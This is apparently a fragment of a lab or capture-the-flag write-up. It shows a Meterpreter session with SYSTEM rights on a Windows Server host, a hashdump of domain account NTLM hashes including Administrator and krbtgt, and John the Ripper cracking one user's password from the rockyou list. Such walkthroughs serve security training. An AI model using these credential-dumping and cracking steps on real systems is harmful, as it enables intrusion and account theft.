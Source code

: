 ```bash
meterpreter > 

```

**Gathering Information**

```bash
meterpreter > sysinfo 
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
meterpreter > ls Shares\\
Listing: Shares\
================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2021-07-30 08:18:13 +0100  speedster

meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:dd12007a0535a931099dc764475780ae:::
meterpreter > 

```

**Cracking NTLM Hash**

```bash
root@ip-10-10-116-100:~# nano nt.txt
root@ip-10-10-116-100:~# john --format=nt nt.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Trustno1         (jchambers)
1g 0:00:00:00 DONE (2025-08-07 14:19) 11.11g/s 571733p/s 571733c/s 571733C/s blackrose1..2pac4ever
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 

```
